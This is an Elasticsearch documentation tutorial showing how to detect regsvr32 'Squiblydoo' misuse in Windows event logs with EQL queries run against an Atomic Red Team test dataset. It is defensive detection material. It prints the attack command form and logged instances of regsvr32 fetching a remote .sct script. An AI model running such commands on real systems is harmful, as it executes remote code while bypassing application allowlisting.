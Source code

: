 [role="xpack"]
[testenv="basic"]
[[eql-ex-threat-detection]]
== Example: Detect threats with EQL

experimental::[]

This example tutorial shows you how you can use EQL to detect security threats
and other suspicious behavior. In the scenario, you're tasked with detecting
https://attack.mitre.org/techniques/T1218/010/[regsvr32 misuse] in Windows
event logs.

`regsvr32.exe` is a built-in command-line utility used to register `.dll`
libraries in Windows. As a native tool, `regsvr32.exe` has a trusted status in
Windows, letting it bypass most allowlist software and script blockers.
Attackers with access to a user's command line can use `regsvr32.exe` to run
malicious scripts using `.dll` libraries, even on machines that otherwise
disallow such scripts.

One common variant of regsvr32 misuse is a
https://attack.mitre.org/techniques/T1218/010/[Squiblydoo attack]. In a
Squiblydoo attack, a `regsvr32.exe` command uses the `scrobj.dll` library to
register and run a remote script. These commands often look like this:

[source,sh]
----
"regsvr32.exe  /s /u /i:<script-url> scrobj.dll"
----

[discrete]
[[eql-ex-threat-detection-setup]]
=== Setup

This tutorial uses a test dataset for regsvr32 misuse from
https://github.com/redcanaryco/atomic-red-team[Atomic Red Team]. The dataset has
been normalized and mapped to use fields from the {ecs-ref}[Elastic Common
Schema (ECS)], including the `@timestamp` and `event.category` fields. The
dataset includes events that imitate behaviors of a Squiblydoo attack, as
documented in the https://attack.mitre.org[MITRE ATT&CK®] knowledge base.

To get started, download and index the dataset:

. Download the https://raw.githubusercontent.com/elastic/elasticsearch/{branch}/docs/src/test/resources/normalized-T1117-AtomicRed-regsvr32.json[`normalized-T1117-AtomicRed-regsvr32.json`] dataset.

. Index the data into `my-index-000001` with the following <<docs-bulk,bulk
API>> request:
+
[source,sh]
----
curl -H "Content-Type: application/json" -XPOST "localhost:9200/my-index-000001/_bulk?pretty&refresh" --data-binary "@normalized-T1117-AtomicRed-regsvr32.json"
----
// NOTCONSOLE

. Use the <<cat-indices,cat indices API>> to verify the data was successfully
indexed.
+
[source,console]
----
GET /_cat/indices/my-index-000001?v&h=health,status,index,docs.count
----
// TEST[setup:atomic_red_regsvr32]
+
The API response should show a `docs.count` value of `150`, indicating 150
documents were indexed.
+
[source,txt]
----
health status index            docs.count
yellow open   my-index-000001         150
----
// TESTRESPONSE[non_json]

[discrete]
[[eql-ex-get-a-count-of-regsvr32-events]]
=== Get a count of regsvr32 events

Since you're looking for regsvr32 misuse, start by getting a count of any
events associated with a `regsvr32.exe` process.

The following <<eql-search-api,EQL search API>> request uses an EQL query to
retrieve a count of events with a `process.name` of `regsvr32.exe`. The query
starts with the <<eql-syntax-match-any-event-category,`any where` keywords>>,
meaning the query can match events of any <<eql-required-fields,event
category>>.

[source,console]
----
GET /my-index-000001/_eql/search?filter_path=-hits.events   <1>
{
  "query": """
    any where process.name == "regsvr32.exe"                <2>
  """,
  "size": 200                                               <3>
}
----
// TEST[setup:atomic_red_regsvr32]

<1> Uses the `?filter_path=-hits.events` query parameter to exclude the
`hits.events` property from the response. The `hits.events` property contains
the document source for any matching events. This request is intended to
retrieve a count of events only.
<2> Uses an EQL query to match events with a `process.name` of `regsvr32.exe`.
<3> Returns up to 200 events or sequences matching the EQL query.

The request returns the following response, indicating that 143 events match the
query.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 60,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 143,
      "relation": "eq"
    }
  }
}
----
// TESTRESPONSE[s/"took": 60/"took": $body.took/]

[discrete]
[[eql-ex-check-for-command-line-artifacts]]
=== Check for command line artifacts

Based on your previous query, you know regsvr32 processes were associated with
143 events. But how was `regsvr32.exe` first called? And who called it?

`regsvr32.exe` is a command-line utility so it may help to narrow your results
to processes where the command line was used.

Update the previous EQL query as follows:

* Change the `any` keyword to `process`. This limits matches to events with an
`event.category` of `process`.
* Add the `and process.command_line.keyword != null` condition to match only
events with a command line value.

You'll also need to remove the `filter_path=-hits.events` query parameter. This
lets you retrieve the document source for any matching events.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    process where process.name == "regsvr32.exe" and process.command_line.keyword != null
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches one process event. The event has an `event.type` of
`creation`, indicating the start of a `regsvr32.exe` process.

Based on the `process.command_line` value in the response, `regsvr32.exe` used
`scrobj.dll` to register a script, `RegSvr32.sct`. This fits the behavior of a
Squiblydoo attack.

The response also includes other valuable information about how the
`regsvr32.exe` process started, such as the `@timestamp`, the associated
`user.id`, and the `process.parent.name`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 21,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_type": "_doc",
        "_id": "gl5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "parent": {
              "name": "cmd.exe",
              "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
              "executable": "C:\\Windows\\System32\\cmd.exe"
            },
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
            "executable": "C:\\Windows\\System32\\regsvr32.exe",
            "ppid": 2652
          },
          "logon_id": 217055,
          "@timestamp": 131883573237130000,
          "event": {
            "category": "process",
            "type": "creation"
          },
          "user": {
            "full_name": "bob",
            "domain": "ART-DESKTOP",
            "id": "ART-DESKTOP\\bob"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 21/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-check-for-malicious-script-loads]]
=== Check for malicious script loads

You now know that a `regsvr32.exe` process was used to register a potentially
malicious script, `RegSvr32.sct`. Next, see if `regsvr32.exe` later loads the
`scrob.dll` library.

Modify the previous EQL query as follows:

* Change the `process` keyword to `library`.
* Replace the `process.command_line.keyword != null` condition with
`dll.name == "scrobj.dll`.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    library where process.name == "regsvr32.exe" and dll.name == "scrobj.dll"
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches an event, confirming `scrobj.dll` was later loaded by
`regsvr32.exe`.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 5,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "events": [
      {
        "_index": "my-index-000001",
        "_type": "_doc",
        "_id": "ol5MJXMBMk1dGnErnBW8",
        "_score": null,
        "_source": {
          "process": {
            "name": "regsvr32.exe",
            "pid": 2012,
            "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
            "executable": "C:\\Windows\\System32\\regsvr32.exe"
          },
          "@timestamp": 131883573237450016,
          "dll": {
            "path": "C:\\Windows\\System32\\scrobj.dll",
            "name": "scrobj.dll"
          },
          "event": {
            "category": "library"
          }
        }
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 5/"took": $body.took/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.events.0._id/]

[discrete]
[[eql-ex-detemine-likelihood-of-sucess]]
=== Determine the likelihood of success

In many cases, malicious scripts are used to connect to remote servers or
download other files. If this occurred, the attack might have succeeded.

Use an <<eql-sequences,EQL sequence query>> to check for the following series of
events, in order:

. A `regsvr32.exe` process, which could have been used to register malicious
scripts as `scrobj.dll`
. A load of the `scrobj.dll` library by the same process
. Any network event by the same process, which could indicate the download of a
remote file

To match, each event in the sequence must share the same process ID, recorded in
the `process.pid` field.

Based on the command line value seen in the previous result, you can expect to
find a match. However, the sequence query isn't designed for that specific
command. Instead, it looks for a pattern of suspicious behavior while still
being generic enough to detect similar threats in the future.

[source,console]
----
GET /my-index-000001/_eql/search
{
  "query": """
    sequence by process.pid
      [process where process.name == "regsvr32.exe"]
      [library where dll.name == "scrobj.dll"]
      [network where true]
  """
}
----
// TEST[setup:atomic_red_regsvr32]

The query matches a sequence, indicating the attack likely succeeded.

[source,console-result]
----
{
  "is_partial": false,
  "is_running": false,
  "took": 25,
  "timed_out": false,
  "hits": {
    "total": {
      "value": 1,
      "relation": "eq"
    },
    "sequences": [
      {
        "join_keys": [
          2012
        ],
        "events": [
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "gl5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 3,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "parent": {
                  "name": "cmd.exe",
                  "entity_id": "{42FC7E13-CBCB-5C05-0000-0010AA385401}",
                  "executable": "C:\\Windows\\System32\\cmd.exe"
                },
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "command_line": "regsvr32.exe  /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll",
                "executable": "C:\\Windows\\System32\\regsvr32.exe",
                "ppid": 2652
              },
              "logon_id": 217055,
              "@timestamp": 131883573237130000,
              "event": {
                "category": "process",
                "type": "creation"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "ol5MJXMBMk1dGnErnBW8",
            "_version": 1,
            "_seq_no": 5,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573237450016,
              "dll": {
                "path": "C:\\Windows\\System32\\scrobj.dll",
                "name": "scrobj.dll"
              },
              "event": {
                "category": "library"
              }
            }
          },
          {
            "_index": "my-index-000001",
            "_type": "_doc",
            "_id": "EF5MJXMBMk1dGnErnBa9",
            "_version": 1,
            "_seq_no": 24,
            "_primary_term": 1,
            "_score": null,
            "_source": {
              "process": {
                "name": "regsvr32.exe",
                "pid": 2012,
                "entity_id": "{42FC7E13-CBCB-5C05-0000-0010A0395401}",
                "executable": "C:\\Windows\\System32\\regsvr32.exe"
              },
              "@timestamp": 131883573238680000,
              "destination": {
                "address": "151.101.48.133",
                "port": "443"
              },
              "source": {
                "address": "192.168.162.134",
                "port": "50505"
              },
              "event": {
                "category": "network"
              },
              "user": {
                "full_name": "bob",
                "domain": "ART-DESKTOP",
                "id": "ART-DESKTOP\\bob"
              },
              "network": {
                "protocol": "tcp",
                "direction": "outbound"
              }
            }
          }
        ]
      }
    ]
  }
}
----
// TESTRESPONSE[s/"took": 25/"took": $body.took/]
// TESTRESPONSE[s/"_id": "gl5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.0._id/]
// TESTRESPONSE[s/"_seq_no": 3/"_seq_no": $body.hits.sequences.0.events.0._seq_no/]
// TESTRESPONSE[s/"_id": "ol5MJXMBMk1dGnErnBW8"/"_id": $body.hits.sequences.0.events.1._id/]
// TESTRESPONSE[s/"_seq_no": 5/"_seq_no": $body.hits.sequences.0.events.1._seq_no/]
// TESTRESPONSE[s/"_id": "EF5MJXMBMk1dGnErnBa9"/"_id": $body.hits.sequences.0.events.2._id/]
// TESTRESPONSE[s/"_seq_no": 24/"_seq_no": $body.hits.sequences.0.events.2._seq_no/]
